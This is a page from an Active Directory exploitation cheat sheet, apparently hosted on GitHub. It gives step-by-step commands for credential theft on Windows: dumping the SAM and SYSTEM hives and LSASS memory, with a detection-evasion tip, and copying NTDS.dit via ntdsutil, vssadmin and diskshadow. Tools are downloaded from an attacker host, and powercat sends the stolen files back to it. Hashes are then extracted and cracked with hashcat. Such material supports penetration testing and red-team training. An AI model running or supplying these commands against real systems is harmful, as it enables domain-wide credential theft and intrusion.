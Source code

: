 ## Account hunting & data exfiltration

### SAM / SECURITY / SYSTEM
```powershell
reg.exe save hklm\sam C:\path\SAM
reg.exe save hklm\security C:\path\SECURITY
reg.exe save hklm\system C:\path\SYSTEM
# REBUILD
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

### LSASS MEMORY DUMPING
```powershell
# NORMAL
.\procdump.exe -accepteula -ma lsass lsass.dmp
# STRING EVASION, REPLACE WITH PID
.\procdump.exe -accepteula -ma process_PID lsass.dmp
# REBUILD
pypykatz lsa minidump lsass.dmp 
```

### Obtaining NTDS.dit Using ntdsutil
```cmd
ntdsutil
activate instance ntds
ifm
create full C:\ntdsutil
quit
quit
```

### Obtaining NTDS.dit Using vssadmin
```cmd
mkdir c:\extract
REM -> c:\Windows\system32
vssadmin create shadow /for=c:
copy \\?GLOBALROOT\Device\HarddiskVolumeShadowCopy5\Windows\ntds\ntds.dit c:\extract\ntds.dit
reg SAVE HKLM\SYSTEM c:\extract\SYS
REM yes
REM exfiltrate to your attacker computer
REM housekeeping
vssadmin delete shadows /shadow={PATH} /Quiet
```

### Obtaining NTDS.dit Using shadow copy (SeBackup)
```powershell
# Create  script.txt file that will contain the shadow copy process script
#Script ->{
set context persistent nowriters  
set metadata c:\windows\system32\spool\drivers\color\example.cab  
set verbose on  
begin backup  
add volume c: alias mydrive  

create  

expose %mydrive% w:  
end backup  
#}

# TRANSFERT TO TARGET SYSTEM
Invoke-WebRequest -Uri "http://10.10.10.10/script.txt" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\script.txt"

# EXEC DISKSHADOW
cd C:\windows\system32\spool\drivers\color
diskshadow.exe -s script.txt

# CHECK THE CAB
ls
-a----         6/7/2020   9:31 PM            743 example.cab

# IMPORTING DLL SeBackupPrivilegeCmdLets & SeBackupPrivilegeUtils
Invoke-WebRequest -Uri "http://10.10.10.10/SeBackupPrivilegeCmdLets.dll" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\SeBackupPrivilegeCmdLets.dll"
Invoke-WebRequest -Uri "http://10.10.10.10/SeBackupPrivilegeUtils.dll" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\SeBackupPrivilegeUtils.dll"
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll

# CHECK MODULE
get-help SeBackupPrivilege
Name                              Category  Module                    Synopsis
----                              --------  ------                    --------
Get-SeBackupPrivilege             Cmdlet    SeBackupPrivilegeCmdLets  ...
Set-SeBackupPrivilege             Cmdlet    SeBackupPrivilegeCmdLets  ...
Copy-FileSeBackupPrivilege        Cmdlet    SeBackupPrivilegeCmdLets  ...

#Use the functionality of the dlls to copy the ntds.dit database file from the shadow copy to a location of our choice
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\Windows\temp\ntds.dit -Overwrite

# Dump ACTUAL SYSTEM hive
reg.exe save HKLM\SYSTEM c:\temp\system.hive 

# FILE TRANSFERT
powercat -c 10.10.10.10 -p 443 -i c:\Windows\temp\system.hive
powercat -c 10.10.10.10 -p 443 -i c:\Windows\temp\ntds.dit
```

---
### Rebuild AD Hashes
- -ntds: location and name of the ntds.dit file
- -system: location and name of the SYSTEM hive
- -hashes lmnhash:nthash: NTLM hash
- LOCAL: parse files on the local system
- -outputfile: location and name of the output file. Extensions are automatically added based on content extracted
```bash
# impacket
secretsdump.py -ntds ntds.dit -system SYS -hashes lmhash:nthash LOCAL -outputfile ntlm-extract
```

---
### Install your NVIDIA Driver for GPU Power
```bash
apt install -y nvidia-driver nvidia-cuda-toolkit
apt install -y mesa-utils
# CHECK
nvidia-smi
# CHECK
nvidia-smi -i 0 -q
# CHECK
glxinfo | grep -i "direct rendering"
```

---
### Cracking
- -m 1000: NTLM | Operating Systems
- ntlm-extract.ntds: secretsdump outfile
- /usr/share/wordlists/rockyou.txt: plaintext wordlist
- -o: location of cracked hash
```bash
hashcat -m 1000 ntlm-extract.ntds /usr/share/wordlists/rockyou.txt -o cracked
cat cracked 
```

[<- BACK TO MAIN MENU ->](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/README.md)